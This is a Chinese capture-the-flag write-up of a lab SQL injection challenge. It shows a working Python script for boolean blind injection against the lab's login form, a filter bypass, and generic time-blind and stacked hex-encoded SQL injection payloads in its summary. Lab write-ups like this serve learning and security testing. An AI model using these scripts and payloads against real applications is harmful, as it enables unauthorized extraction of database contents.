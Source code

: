 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{login_sqli_is_nice}`

## 思路
1. 访问环境时显示403，可以遍历一下常用的入口文件`index.php、admin.php、webshell.php、login.php`等，此处题目给了提示`login.php、user.php`
2. login.php界面有两种错误反馈，测试出**admin**账户存在
    - 账号或密码错误
    - 账号不存在
3. 与[sql注入-1](./sql注入-1.md)原理相同，判断出用户名处存在字符型sql注入
    ![](./images/sql2-1.png)   
    ![](./images/sql2-2.png)
4. 进一步发现union select注入，由于不展示select到的值，有两个结果作为返回值，开始写脚本进行报错注入。
```python
# -*- coding: utf-8 -*-
# @Date    : 2020-12-18
# @Author  : SuperJason
import requests
import string

url = 'http://092604a0-af99-4453-aedd-215fff67f97e.node3.buuoj.cn/login.php'
flag = ''
trueflag='8bef'
falseflag='5728'
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

# select过滤
for i in range(1,50):
# 由于服务器限制了访问请求，上述for循环可以每次遍历少一点的数量，例如1-5,5-10,....
    # 可打印字符的ASCII码在33-128之间
    left = 32
    right = 127

    while right - left != 1:
        mid = (right + left) // 2        
        # target = 'select database()'        
        # target = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        # target = 'select group_concat(column_name) from information_schema.columns where table_name="fl4g"'
        target = 'select flag from fl4g'

        payload = "'and (ascii(substr(({}), {}, 1))>{})#".format(target, i, mid)
        #payload = payload.replace('from', 'frfromom')
        payload = payload.replace('select', 'selselectect')
        #payload = payload.replace('or', 'oorr')
        #payload = payload.replace('where', 'whwhereere')
        # 此处需要通过burpsuite等工具获得post的参数名
        data = {
            "name": "admin"+payload,
            "pass": 1
        }

        content = requests.post(url, data = data).text
        if trueflag in content:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print (flag)

# note
# fl4g,usc
# flag
# n1book{login_sqli_is_nice}

```

## 总结
这道题算是简单题，只对select进行了过滤，而且只是基于报错的注入。现在来扩宽一下sql注入的难度
- 关键字过滤
    - select、union、sleep、information_schema
    - table、and、or
- 时间盲注需要用到sleep(n)，盲注通用语句
    - `sql="select(if(ascii(mid((select group_concat(schema_name) from information_schema.schemata),{},1))={},sleep(3),0))".format(str(num), str(ord(char)))`
- 进一步的关键字都被过滤，时间盲注关键字也无效，考虑SQL语句的转码。使用**堆叠注入**的方式执行**16进制编码的SQL语句**。
通用payload如下
    - `1';set @x=16进制SQL语句;prepare a from @x;execute a;#`
    - 注意`16进制SQL语句`前面需要加`0x`
